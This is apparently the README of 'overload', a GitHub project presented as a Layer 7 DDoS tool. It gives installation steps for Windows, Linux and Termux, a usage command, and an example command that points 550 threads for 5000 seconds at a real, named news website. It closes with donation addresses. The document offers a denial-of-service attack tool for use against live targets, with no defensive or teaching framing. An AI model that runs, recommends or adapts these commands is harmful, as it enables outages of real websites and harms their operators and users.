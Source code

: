 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-HSTML-1f425f.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Main Window:
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Installation:


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Download Python 3.8 [here](https://www.python.org/downloads/release/python-38)
  - Open the installer and click on: `add python to PATH`
  - Download overload <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">here</a>
  - Open CMD or PowerShell in the overload directory
  - Execute this command: `pip3 install -r requirements.txt or python -m pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ How To Use:
The basic command to be able to execute Overload:

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```

## 💰 Donate:


  **BTC:** `bc1qhsdvfaee48qpauxzyccyjjxd7laggmlvyzketh` </br>
  **ETH:** `0xA438762F645A4DcE1a4c7be66D0E787B8cDb30bd` </br>
  **PayPal:** **https://paypal.me/goncalopolido**

